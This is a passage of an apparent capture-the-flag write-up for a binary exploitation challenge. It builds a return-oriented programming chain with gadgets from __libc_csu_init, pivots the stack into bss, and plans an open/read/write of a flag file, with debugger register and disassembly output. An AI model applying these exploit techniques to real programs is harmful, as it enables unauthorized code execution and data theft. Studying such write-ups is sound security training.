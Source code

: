 ```python
   payload += p64(0x300)      # pop r13
   payload += p64(bss_start)  # pop r14
   payload += p64(0)          # pop r15
   payload += p64(gadget2)    # ret Gadget 2 (movs + pops)
   payload += p64(0)*7        # add rsp, 8 - pops
``` 
Now we have a leak and a `read` that is open and ready to write in the `bss`.  
We need to `pivot` to the `bss` segment now.  
```python
# Stack pivot -> bss
payload += p64(pop_rsp)     # pop rsp
payload += p64(ropchain)    # ropchain address bss+0x100
```

After our call to `read`, we see that the `./flag` is stored in the `bss` as we wanted it to.  
```asm
 RAX  0x1f0
 RBX  0x0
 RCX  0x7f1fabc895ae (read+14) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x300
 RDI  0x0
 RSI  0x602010 ◂— 0x620067616c662f2e /* './flag' */
 R8   0x720010 ◂— 0x700000007
 R9   0x7
 R10  0x7
 R11  0x246
 R12  0x601fd0 (_GLOBAL_OFFSET_TABLE_+72) —▸ 0x7f1fabc895a0 (read) ◂— mov    eax, dword ptr fs:[0x18]
 R13  0x300
 R14  0x602010 ◂— 0x620067616c662f2e /* './flag' */
 R15  0x0
 RBP  0x1
 RSP  0x7ffc9b0e18e8 ◂— 0x0
 RIP  0x400c0d (__libc_csu_init+77) ◂— add    rbx, 1
──────────────────────────────────────────[ DISASM ]──────────────────────────────────────────
   0x400c24 <__libc_csu_init+100>    ret    
    ↓
   0x400c00 <__libc_csu_init+64>     mov    rdx, r13
   0x400c03 <__libc_csu_init+67>     mov    rsi, r14
   0x400c06 <__libc_csu_init+70>     mov    edi, r15d
   0x400c09 <__libc_csu_init+73>     call   qword ptr [r12 + rbx*8]
```

Even though we can calculate libc_base, we cannot execute `system` or `execve` because we are not allowed.  
We need to somehow read the flag with the 4 funcs we mentioned before.  
The plan is to:  
* `open` the flag file remotely  
* `read` it  
* `write` its content in fd 1
* `exit` (optional)  

Final plan:  
* Leak the address of a libc func, `write(1, write@got, 0x8)`
* Make `read` write our ropchain at `bss`, `read(0, bss_addr, 0x300)` 
* Stack pivot to `bss`  
* `open` the flag file remotely  
* `read` it  
* `write` its content in fd 1
* `exit` (optional) 
